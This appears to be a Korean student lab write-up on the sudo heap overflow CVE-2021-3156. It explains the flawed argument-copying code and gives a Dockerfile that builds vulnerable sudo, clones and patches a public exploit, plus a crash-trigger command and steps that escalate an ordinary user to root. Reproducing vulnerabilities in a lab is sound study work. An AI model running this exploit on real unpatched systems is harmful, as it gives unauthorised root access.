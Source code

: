 # CVE-2021-3156
| 화이트햇스쿨 3기 35반 김동욱(7031)
----
### 요약
**CVE-2021-3156**
CVE-2021-3156은 sudo 명령어의 특정 함수에서 발생하는 힙 버퍼 오버플로우 관련 취약점입니다.

이 취약점은 사용자 입력의 이스케이프(`\`)를 처리하는 과정에서 버퍼 오버플로우가 발생하여 트리거됩니다. 
크게 Privilege Escalation(권한 상승), Arbitary Code Execution(임의 코드 실행)으로 이어질 수 있습니다.

2021년 1월 경 Qualys의 연구팀에 의해 발견되었으며 2011년 7월 이후의 대부분의 리눅스 배포판에 영향을 미칩니다. 

본 보고서에서도 이에 영향을 받는 베이스 이미지인 Ubuntu 20.04 버전의 이미지를 사용하였습니다.

**CVE 등록 정보**
- CVSS: 7.8(높음)   
- 공격 벡터: 로컬
- 공격 복잡성: 낮음
- 필요 권한: 낮음

**발생하는 이유**
`sudo`와 함께 사용되는 `sudoedit` 명령어에서 사용자 입력 파싱 로직을 실행하는 함수인 `set_cmnd()`에서 힙 버퍼 오버플로우가 발생합니다.
아래는 해당 취약점이 발생하는 코드입니다.
```c
for (size = 0, av = NewArgv + 1; *av; av++)
size += strlen(*av) + 1;
if (size == 0 || (user_args = malloc(size)) == NULL) {
    ...
}
...
    *to++ = *from++;
```
- 인자 값 복사 이전에 `size` 변수가 확정되어 힙 버퍼 오버플로우에 취약
- 사용자 입력(argv)을 `to` 변수에 이스케이프 처리하여 복사하지만 `\\`와 같은 입력이 들어오면 `to`와 `from`의 길이가 맞지 않게 됨 -> 계속된 복사 작업으로 인한 잘못된 메모리 접근이 발생함
  
이로 인해 공격자는 힙 공간에 악의적인 값을 삽입하는 것이 가능해집니다.
****
### 환경 구성
CVE-2021-3156은 아직 vulhub에 올라와있지 않은 것으로 확인하였습니다.
따라서 아래와 같이 `dockerfile`을 구성하였습니다.
- 취약한 베이스 이미지인 `ubuntu:20.04`를 사용
- 공개된 github PoC 코드 사용
  - https://github.com/CyberCommands/CVE-2021-3156.git
  - 컨테이너 내의 환경과 일부 맞지 않는 부분이 있어 수정함
- sudo 저장소에서 취약한 버전의 sudo를 다운로드받아 이미지 내에서 빌드
```Dockerfile
# CVE-2021-3156

# 베이스 이미지 설정
FROM ubuntu:20.04
ARG DEBIAN_FRONTEND=nointeractive

# 필요한 패키지 설치
RUN apt-get update -y
RUN apt-get install -y build-essential \
                       make wget whois \
                       gdb git python3-pip \
                       libssl-dev libffi-dev \
                       python3-dev sudo

# 취약한 sudo 빌드 및 설치
WORKDIR /root
RUN wget https://www.sudo.ws/dist/sudo-1.8.31.tar.gz
RUN tar -xf sudo-1.8.31.tar.gz && \
    cd sudo-1.8.31/ && \
    mkdir build && cd build && \
    ../configure --enable-env-debug && \
    make -j && make install

# 테스트 유저 생성 및 설정
RUN useradd -ms /bin/bash Gayang2902
WORKDIR /home/Gayang2902
COPY ./vuln_check /home/Gayang2902/vuln_check

# 공개된 PoC clone 및 컨테이너 환경에 맞게 일부 수정하여 빌드
## 1. argv 변수 수정
## 2. sudoedit 경로 수정
RUN git clone https://github.com/CyberCommands/CVE-2021-3156.git && \
    cd CVE-2021-3156 && \
    sed -i 's|char\* argv\[\] = {[^}]*}|char* argv[] = { "sudoedit", "-s", "AAAAA", NULL };|' exploit.c && \
    sed -i 's|/usr/bin/sudoedit|/usr/local/bin/sudoedit|g' exploit.c && \
    make && \
    ln -s /home/Gayang2902/CVE-2021-3156/exploit /home/Gayang2902/exploit

USER Gayang2902

CMD [ "bash" ]

```
**이미지 빌드**
```bash
docker build -t <image:tag> .
```

**취약한 환경이 구성되었는지 확인**
```bash
$ docker run --rm <image:tag> ./vuln_check
# 아래와 같이 출력되면 취약한 환경이 잘 구성된 것
./vuln_check: line 2:     8 Segmentation fault      sudoedit -s '\' `perl -e 'print "A" x 10000'`
```
### 실행
```bash
$ docker run --rm --it <image:tag>
$ cd CVE-2021-3156 && ./exploit
```
### 익스플로잇 시연
1. **이미지 빌드**
![alt text](images/image_build.png)
2. **취약한 버전으로 빌드되었는지 확인**
![alt text](images/vuln_check.png)
3. **PoC 시연**
위의 과정으로 빌드를 완료하고 PoC를 실행시키면 아래와 같이 sudo 그룹에 속해있거나 sudoers에 등록되어 있지 않은 일반 사용자에서 root 계정으로 권한 상승이 되는 것을 확인할 수 있습니다.
![alt text](images/image.png)
### 정리
